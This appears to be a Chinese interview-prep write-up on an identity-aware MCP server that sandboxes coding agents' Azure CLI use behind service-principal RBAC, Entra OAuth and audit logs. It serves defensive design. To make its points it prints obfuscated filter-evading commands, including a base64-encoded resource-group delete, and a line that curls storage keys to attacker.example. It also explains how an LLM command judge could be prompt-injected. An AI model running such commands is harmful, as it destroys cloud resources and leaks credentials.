






# Identity-Aware MCP：给 Coding Agent 的 CLI 加 guardrail

> **简历原句：** Designed guardrails for Claude Code and Copilot running Bash CLI in Azure Container Apps sandboxes via MCP; enforced OAuth and Entra ID group access with caller-attributed audit logs; used by 20+ engineers across teams
>
> **一句话：** 本机上的 coding agent 用的是工程师本人的身份，想做什么都行。我把 CLI 搬进 ACA sandbox，用 service principal 当身份边界，再用 MCP + OAuth 决定谁能用哪个身份，每次调用都能追回到具体的人。
>
> *EN:* Coding agents run CLI on the laptop as the engineer. I moved the CLI into ACA sandboxes, made a service principal the identity boundary, and used MCP plus OAuth to decide who can use which identity, with every call traced back to a person.

---

## 1. 主答案（2–3 分钟）

### 英文稿

> Nowadays many companies, including us, give engineers Claude Code or Copilot with direct CLI access on their local computer. There's limited control, and the commands run as the engineer. If I have admin access, technically the AI can delete an entire subscription or resource group on my behalf with a simple `az group delete`.
>
> So I moved the CLI off into an Azure Container Apps sandbox, which is my execution boundary. An ACA sandbox is a burstable microVM that spins up when commands come in, and gets cleaned up once the session goes idle.
>
> Then I provisioned service principals for different identity boundaries. Instead of running az commands as me, a service principal with limited RBAC access executes them. I just use a federated credential to log in from the sandbox, without any password.
>
> Since ACA sandboxes have an API, I built an MCP server with FastMCP, and each service principal becomes a tool. Say you've got a reader SP and a contributor SP. That's two tools. Same code underneath; the only thing that changes is which SP it logs in as.
>
> Finally, I put an OAuth layer in front. Users have to log in with Entra, we put them in AD groups, and you only see the tools your group allows. So if you're only in the reader group, you never even see the contributor tool.
>
> So the general flow is: the user logs in, or already has a cached Entra token, and sends it to the MCP server hosted in Azure Container Apps. Based on the user's AD group, tools backed by different SPs can be called, and the command is sent to the sandbox. Each time, a UUID is generated and attached in the header, and the call is also stored in a centralized Log Analytics table, so we can trace an action in the resource logs back to the individual caller.

讲的时候要注意的三个说法，原因见第 3 节（数字和口径）：

- 沙箱不是"每条命令跑完就删"，而是同一个人 30 分钟活动窗口内一直复用，空闲后才回收。
- GUID 能串回真人的是 **resource logs**（Storage、Key Vault 这类服务自己的日志），不是 Activity Log。
- `az delete` 不是真命令，说 `az group delete`。

### 整体流程



### 每一层管什么

| 层                       | 回答的问题                       | 实现                                                                            |
| ------------------------ | -------------------------------- | ------------------------------------------------------------------------------- |
| 用户身份 + AD group      | 这个人能用哪个 tool              | OAuth 登录 Entra；server 用 OBO 调 Graph `checkMemberGroups`，结果缓存 300 秒 |
| Service principal + RBAC | 命令最坏能做到什么               | 每个 tool 背后一个 SP；diagnose 用 Reader，action 用权限更高的 SP               |
| ACA sandbox              | 命令在哪跑，影响得到哪些运行环境 | microVM，FIC 免密登录，用完回收；不在工程师笔记本上跑                           |
| 审计                     | 共享 SP 做的事是哪个人发起的     | 自己的审计表 `MCPAudit_CL` + User-Agent 里的 GUID                             |

---

## 2. Follow-up

主答案故意没讲的部分，按被问到的可能性排序。每一条先讲原理，最后给一段英文答法。

### 2.1 MCP 还是 CLI：为什么两个都要

**结论：** 不是二选一。CLI 负责"能做什么"，也就是组合能力；MCP 负责"谁能做、用哪个身份做、留下什么记录"，也就是控制。这个项目里 MCP 是控制层，CLI 是执行层。

**为什么不只用 MCP。** 大多数 MCP server 是把 SDK 方法一个个包成 tool。SDK 有几个方法，MCP 就有几个 tool，控制流交给模型。每次 tool call 都是一轮完整的模型推理，中间结果全部写回 context，后面每一轮都要带着越来越长的历史。

举个例子：列出一个 Storage Account 下所有 container 里所有 blob 的大小和修改时间。如果只有 `list_containers`、`list_blobs`、`get_blob_properties` 三个 tool，100 个 container、每个 100 个 blob，最坏要 1 + 100 + 100 × 100 = 10,101 次 tool call。用 CLI 一次就够：

```bash
for c in $(az storage container list --account-name "$ACCOUNT" --auth-mode login --query '[].name' -o tsv); do
  az storage blob list --account-name "$ACCOUNT" --container-name "$c" --auth-mode login \
    --query "[].{container:'$c', blob:name, bytes:properties.contentLength, modified:properties.lastModified}"
done | jq -s 'add'
```

省掉的是模型编排的轮数，不是 Azure API 请求数：CLI 内部照样要分页、遍历。区别是这些机械循环不用每一步都经过模型。另外 tool 越多，tool 定义本身占的 context 也越多；这里只有两个 tool。

**为什么不只用本机 CLI。** 本机 CLI 能力最强，但没有任何边界：命令用的是工程师本人的 `az login`，同一台机器上还有源码、token cache、SSH key。Azure 日志里看到的就是工程师本人，分不清是人做的还是模型自己决定做的。

**CRUD 式 MCP 有一个真正的优点，改成 CLI 后就没了。** tool 列表天然是一份白名单：不给 delete tool，模型无论被怎么骗都删不了。给了 Bash，这份白名单就没了。所以必须在别的地方重建一个上限，这个上限就是执行身份（见 2.2，为什么不在命令字符串上设防）。

|                        | CRUD 式 MCP              | 本机直接跑 CLI                     | 这个项目：MCP 里包 CLI |
| ---------------------- | ------------------------ | ---------------------------------- | ---------------------- |
| 复杂查询要几轮模型推理 | 很多，模型逐个 API 编排  | 一轮                               | 一轮                   |
| 中间结果进不进 context | 全部进                   | 只进最终结果                       | 只进最终结果           |
| 能不能限制做什么       | 能，不给对应的 tool 就行 | 不能，用的是工程师本人的权限       | 能，上限是 SP 的 RBAC  |
| 能不能知道是谁做的     | 取决于实现               | 能看到工程师本人，分不清人和 agent | 审计表 + GUID          |
| 统一登录和授权         | 有                       | 没有                               | 有                     |

**也不是什么都交给 Bash。** 步骤固定、领域知识强、出错代价高的流程，比如测试一个 ADF 下所有 linked service 的连通性，仍然值得写成确定性的 tool。CLI 负责没法提前想到的长尾任务。

*EN:*

> It's not MCP versus CLI. Most MCP servers wrap SDK calls one by one, so the model ends up orchestrating every step, and each step is another round of inference. Listing every blob with its properties can take ten thousand tool calls; with az and jq it's one. But a raw CLI on the laptop has no boundary at all. So I use MCP as the control layer, which handles login, which tools you see and the audit trail, and the CLI as the execution layer. I still build deterministic tools for known, high-stakes workflows. Bash is for the long tail.

### 2.2 为什么不在命令字符串上做 allowlist，也不用 LLM 来审命令

**结论：** 命令字符串可以被 Bash 随意改写，所以不在字符串上设防。真正的上限是执行身份的 RBAC，其他措施各有定位，都不能冒充边界。

**命令过滤挡不住。** 想挡 `az keyvault secret show`，一行就绕过去：

```bash
svc=keyvault; az "$svc" secret show --vault-name kv --name db-password   # 命令藏在变量里
eval "$(echo YXogZ3JvdXAgZGVsZXRlIC1uIHJnLXByb2Q= | base64 -d)"             # 整条命令 base64 编码
```

**LLM 审命令我想过，最后明确没做。** 它要解决的问题一大串：命令和说明可能被 prompt injection 一起伪造；审核用的模型自己也会被待审的内容注入；判完到真正执行之间命令还可能被改；模型超时算通过还是拒绝；还要有评估集和版本管理。这是一个完整的策略引擎，不是 MCP server 的一个小功能，所以我把它划出了范围。

**最后各层的定位：**

| 措施                                  | 定位           | 能不能绕过                                        |
| ------------------------------------- | -------------- | ------------------------------------------------- |
| SP 的 RBAC                            | 硬上限         | 不能。模型被注入、命令被混淆，Reader 也删不了东西 |
| 客户端人工审批（action tool）         | 补偿控制       | 取决于客户端，见 2.9（写操作有没有人工审批）      |
| 输出脱敏                              | 卫生措施       | 能，见 2.3（redact 被三行 Bash 绕过的例子）       |
| 审计                                  | 事后证据       | 不是拦截，只负责追溯                              |
| `readOnlyHint` 这类 tool annotation | 给客户端的提示 | 只是提示，不是安全措施                            |

*EN:*

> I don't try to classify command strings. Bash can hide a command in a variable or base64-encode it, and you're done. I also considered an LLM judge, but that's a full policy engine with its own threat model: the judge can be prompt-injected, and there's a gap between judging and executing. So I scoped it out explicitly. The hard ceiling is the service principal's RBAC. Approval, redaction and audit each have a role, but none of them is the boundary.

### 2.3 Redact：一个例子

**结论：** 脱敏只做一层，按 secret 的值格式匹配，只挂在 action tool 上。它是卫生措施，不是边界。

**例子。** 一个在 contributor 组的人让 agent 查一个 Storage Account 的连接串：

```text
# action tool 执行的命令
az storage account show-connection-string -n stdataprod -g rg-data

# 沙箱里的原始输出
{"connectionString": "DefaultEndpointsProtocol=https;AccountName=stdataprod;AccountKey=Xk9f...Q==;EndpointSuffix=core.windows.net"}

# 返回给 agent 的输出
{"connectionString": "DefaultEndpointsProtocol=https;AccountName=stdataprod;AccountKey=«redacted»;EndpointSuffix=core.windows.net"}
```

命中的规则是 `AccountKey=` 后面到分号为止的部分：保留前缀，只遮后面的值。同理，`az storage account keys list` 输出里那个 88 个字符、以 `==` 结尾的 storage key 也会被整段遮掉。另外还有 JWT、PEM 私钥、SAS 的 `sig=`、Entra client secret，以及 AWS、GitHub、OpenAI 这类常见 key 格式。

**第一版为什么失败。** 第一版做了三层：按 JSON 字段名遮（看到 `value`、`secret` 就遮）、按命令判断要不要开（命令里有 `keyvault secret show` 才开）、按熵值兜底。三行 Bash 全部绕过：

```bash
svc=keyvault; az "$svc" secret show ...              # 命令藏进变量，按命令判断的那层失效
az keyvault secret show -o json | jq '{leak:.value}'  # 字段改个名字，按字段名的那层失效
az storage account keys list ... | base64             # 重新编码，熵值那层和 JSON 解析都失效
```

**转折点：** 问题从"怎么把 secret 擦掉"变成"怎么让它根本读不到"。diagnose 用的是纯 Reader，读不到 Key Vault secret 的值，也列不出 storage key，因为 `listKeys` 是 action，不在 `*/read` 里。读取这一步就被身份挡掉了，上面三种绕法在 diagnose 上什么都拿不到。

**为什么最后留的是值格式匹配。** 它不看命令，也不看字段名，所以藏命令、改字段名这两种绕法对它无效。

**为什么只挂在 action 上。** diagnose 读不到 secret，没东西可遮。action 的读取是人审批过的，读一个 Key Vault secret 往往就是审批的目的，遮了反而误事。脱敏只针对"就算批准了也不该落进 transcript、日志和 agent context"的长期账户级凭据。批准的是这一次操作，不是把账户主密钥打出来。

**还挡不住的：** `| base64` 之后的值、没有写规则的新格式，以及直接 `curl` 发到外网（见 2.4，出站流量管控）。

*EN:*

> My first redactor had three layers: field names, command patterns, and entropy. Three lines of bash beat all of them: hide the command in a variable, rename the field with jq, or pipe it through base64. That changed the question from "how do I scrub secrets" to "how do I make sure this identity can't read them at all." The reader SP can't read Key Vault secret values or list storage keys. What's left is a format-based redactor on the action tool only. For example, an `AccountKey=` in a connection string gets masked before it reaches the agent. It's hygiene, like gitleaks, not a boundary.

### 2.4 Egress：出站流量的 roadmap

**结论：** 沙箱把命令和工程师的笔记本隔开了，但没有隔开数据外流。出站流量管控是目前最大的空白，我正在做。

**问题在哪。** 沙箱现在能连任何地址。脱敏只管通过 MCP 返回给客户端的那条通道，拦不住命令自己把数据发出去：

```bash
az storage account keys list -n stdataprod | curl -X POST https://attacker.example -d @-
```

同理，沙箱里 `az login` 之后的 token cache 理论上也能被发出去。

**现在已经在限制损失的东西：**

- diagnose SP 是 Reader，本来就列不出 key。
- 沙箱里没有长期 secret，FIC 登录。能被带走的只有短期 token，而且只有那个 SP 的权限。

**Roadmap（先治本，再上网络设备）：**

| 顺序 | 做什么                                                                                         | 为什么                                                     |
| ---- | ---------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| 1    | 从 SP 的角色里去掉 `listKeys`、`listCredentials` 这类权限                                  | 读不到 key，就没有 key 可以外传                            |
| 2    | Storage 设 `allowSharedKeyAccess: false`，改用 `--auth-mode login`                         | 就算 key 泄漏了也用不了                                    |
| 3    | 用 ACA sandbox 自带的 egress policy，按 domain / CIDR 做 allowlist，每个 SP 对应的沙箱分别验证 | 平台已经有这个能力，缺的是一份够窄、又不弄坏 `az` 的名单 |
| 4    | 访问私有资源走 VNet integration + private endpoint + private DNS                               | 把流量收进自己控制的网络                                   |
| 5    | 原生规则表达不了的场景，再上强制代理、UDR 或 Azure Firewall                                    | 成本最高，放最后                                           |
| 6    | agent 跑的命令永远不能有修改 egress policy 的权限                                              | 否则自己就能把规则关掉                                     |

**几个坑：**

- 只放行 `AzureCloud` 这个 service tag 不是边界。攻击者可以在自己的 Azure 租户里建一个 Storage 来收数据。
- FQDN allowlist 不能写 `*.blob.core.windows.net` 这种多租户通配，同样的原因。
- ARM（`management.azure.com`）必须放行，`az` 离不开它，它本身也可能被当成外传通道。



*EN:*

> The sandbox isolates execution from the laptop, but it doesn't stop exfiltration yet. A command can still curl data out. Today the damage is limited by identity: the reader SP can't list keys, and there's no long-lived secret in the sandbox. The roadmap starts at the source: remove listKeys from the roles and disable shared-key access on storage. Then use the sandbox's native egress policy with a narrow domain allow-list, then VNet integration with private endpoints, and only then a firewall. One trap: allowing the AzureCloud service tag isn't a boundary, because an attacker can stand up a storage account in their own tenant.

### 2.5 OAuth 怎么做的：`.well-known` 发现流程

**结论：** MCP server 是 resource server，Entra 是 authorization server，Claude Code、VS Code 这些客户端是 public client。客户端完全靠 server 提供的 `.well-known` metadata 自己找到 Entra，走 Authorization Code + PKCE 拿 token；server 只验 token、查组，不签发任何 token。

**三个角色：**

| 角色                          | 在这个项目里是谁               | 负责什么                                                           |
| ----------------------------- | ------------------------------ | ------------------------------------------------------------------ |
| OAuth client（public client） | Claude Code、VS Code、opencode | 弹浏览器让用户登录，拿 token，每次请求带 `Authorization: Bearer` |
| Authorization server          | Microsoft Entra ID             | 登录、MFA、consent，签发 access token 和 refresh token             |
| Resource server               | MCP server                     | 验 token，查组，决定能看到和调用哪个 tool                          |

**MCP server 上托管的 `.well-known` endpoint：**

| 路径                                                                                                         | 标准                                      | 返回什么                                                                                                     |
| ------------------------------------------------------------------------------------------------------------ | ----------------------------------------- | ------------------------------------------------------------------------------------------------------------ |
| `/.well-known/oauth-protected-resource/mcp`                                                                | RFC 9728（Protected Resource Metadata）   | 我是哪个 resource，`authorization_servers` 指向 Entra v2，需要的 scope 是 `api://.../user_impersonation` |
| `/.well-known/oauth-protected-resource/mcpproxy`                                                           | RFC 9728                                  | 同上，但 `authorization_servers` 指向 server 自己的 `/mcpproxy`（见 2.6）                                |
| `/.well-known/oauth-authorization-server/mcpproxy` 和 `/mcpproxy/.well-known/oauth-authorization-server` | RFC 8414（Authorization Server Metadata） | `/mcpproxy` 的 authorize 和 token 地址。两种路径写法都注册，因为不同客户端拼发现地址的方式不一样           |

`/mcp` 这条路的 authorization server metadata 由 Entra 自己提供：`https://login.microsoftonline.com/{tenant}/v2.0/.well-known/openid-configuration`。

**完整流程（以 `/mcp` 为例）：**



**几个关键点：**

- **为什么不需要 client secret。** 客户端装在用户机器上，secret 放进去也保不住。证明"你是你"靠浏览器里那次 Entra 登录和 MFA；防止 authorization code 被截走靠 PKCE：只有生成 `code_verifier` 的那个进程能用 code 换到 token。
- **为什么 client_id 要提前注册。** Entra 不支持 MCP 期待的 Dynamic Client Registration（DCR），客户端只能用 Entra 已经认识的 client_id。VS Code 用的是微软内置的 first-party client_id；Claude Code 用我们自己注册的一个 public client app。
- **pre-authorization 只是跳过 consent 页面。** 把 client 加进 MCP app 的 `preAuthorizedApplications`，用户第一次登录就不弹同意页。租户允许 user consent 的话，不加也能用，用户自己点同意就行。只有租户禁止 user consent 时才必须加。
- **看不到也调不了。** FastMCP 的 tool 级 `auth=` 在 `tools/list` 和 `tools/call` 都会检查，所以不在组里的人不只是看不到 tool，直接按名字调也会被拒。
- **把人移出组，最多 5 分钟失效。** 组成员缓存 300 秒，过期后下一次调用重新查 Graph。失效时间取决于这个缓存，不取决于 access token 剩多久过期。
- **refresh token 让用户不用反复登录。** access token 大约一小时过期，客户端用 refresh token 静默续期，不再弹浏览器。

*EN:*

> The MCP server is a resource server; Entra is the authorization server. When a client hits /mcp without a token, it gets a 401 that points to the protected resource metadata under .well-known. That metadata tells the client "my authorization server is Entra, and you need this scope." The client discovers Entra's endpoints, runs authorization code with PKCE in the browser, and comes back with a real Entra token. On every request I validate the JWT, then do an on-behalf-of call to Graph to check group membership, cached for five minutes. Tool-level auth applies to both listing and calling, so hidden also means blocked.

### 2.6 VS Code 能连，Claude Code 和 opencode 登录失败：`resource` 参数和 `/mcpproxy`

**结论：** 这是协议层面的不兼容，不是配置错误。MCP 规范要求客户端带 `resource` 参数，Entra v2 收到后会拒绝。我加了一个只删这一个参数的薄代理 `/mcpproxy`，客户端最后拿到的仍然是真正的 Entra token，后面的身份逻辑一行没改。

**现象。** 同一个 MCP server，VS Code 连得好好的；Claude Code 浏览器登录也过了，最后换 token 时报：

```text
AADSTS9010010: The resource parameter provided in the request doesn't match with the requested scopes.
```

**两个客户端的区别：**

|                            | VS Code                                         | Claude Code / opencode                                |
| -------------------------- | ----------------------------------------------- | ----------------------------------------------------- |
| client_id                  | 微软内置的 first-party client，Entra 本来就认识 | 我们在 Entra 注册的 public client app，写进客户端配置 |
| 首次登录要不要 consent     | 已加入 `preAuthorizedApplications`，不弹      | 用户第一次登录时自己同意                              |
| 会不会发 `resource` 参数 | 不发                                            | 发（MCP 规范要求，RFC 8707）                          |
| 走哪个 endpoint            | `/mcp`，直连 Entra                            | `/mcpproxy`                                         |

**根因。** 一个严格遵守 MCP 规范的客户端会同时发两个值：

```text
resource = https://mcp.example.com/mcp                 ← MCP server 的 URL
scope    = api://<mcp-app>/user_impersonation          ← Entra 里的应用身份
```

MCP 规范要求带 `resource`，是为了把 token 的 audience 钉死在当前这台 server 上，防止发给 A 的 token 被拿去冒充 B。但 Entra v2 用 scope 的 `api://` 前缀决定 audience，它看到 `resource` 和 scope 指向两个不同的东西，就拒绝签发。VS Code 能连，恰恰是因为它不发 `resource`。

**三个方案：**

| 方案                                 | 做法                               | 为什么没选 / 为什么选                                                                                 |
| ------------------------------------ | ---------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 自己做 authorization server          | 自己签 token，内部再换 Entra token | 要自己管密钥轮换、token 生命周期、撤销；客户端拿到的不再是 Entra token，后面基于 `oid` 的逻辑全要改 |
| FastMCP 自带的 `OAuthProxy`        | 完整的 OAuth 代理                  | 要持有 client secret、维护会话状态，为了一个参数引入一个密钥，不划算                                  |
| **只删 `resource` 的薄代理** | **转发时删掉一个参数**       | **问题只有一个参数，就只修这一个参数**                                                          |

**`/mcpproxy` 做了什么：**

- 自己提供一份 protected resource metadata 和一份 authorization server metadata，把 authorize 和 token 地址指向自己。
- `/mcpproxy/authorize`：删掉 `resource`，确保 scope 里有 `offline_access`（这样 Entra 会给 refresh token），然后 302 跳到 Entra 的 authorize。
- `/mcpproxy/token`：删掉 `resource`，把表单转发给 Entra，响应原样返回。

**它不做什么：** 不签发 token，不存任何状态，不持有任何 secret。PKCE 和 `state` 在客户端和 Entra 之间端到端透传；`redirect_uri` 是客户端自己的 localhost，Entra 的回调直接回到客户端，代理连 authorization code 都看不到。



**metadata 里两个故意的设计：**

- **不写 `registration_endpoint`。** Entra 不支持 DCR。写了，合规的客户端会去试动态注册然后失败；不写，客户端就老老实实用配置好的 client_id。
- **`token_endpoint_auth_methods_supported: ["none"]`。** 告诉客户端这是 public client，不要找 client secret。

**怎么接进 FastMCP。** 没有建第二个 FastMCP 实例。我从 `/mcp` 路由里把内层的 MCP app 取出来，在 `/mcpproxy` 上再挂一次。MCP 的会话靠 `mcp-session-id` header 区分，和 URL 无关，所以两条路径共享同一套 tool、同一个 session manager、同一个 JWT verifier。唯一的区别是 401 里的 `WWW-Authenticate` 指向哪份 metadata。

**代价：** 这依赖 FastMCP 和 mcp SDK 的内部结构，SDK 一改，启动就会失败，需要回归测试盯着。

*EN:*

> The MCP spec requires clients to send an RFC 8707 resource parameter, which is the server URL. Entra v2 derives the audience from the scope prefix instead, and rejects the request when the two don't match. VS Code's built-in client doesn't send resource, so it worked; Claude Code follows the spec, so it failed. Instead of building my own authorization server, or adopting a stateful OAuth proxy that holds a secret, I added a thin endpoint that strips that one parameter and forwards everything else. It issues no tokens, stores nothing, and never even sees the authorization code. The client still ends up with a genuine Entra token, so none of my downstream identity logic changed.

### 2.7 Redis 在这里干什么：登录状态存在哪，怎么做到无状态

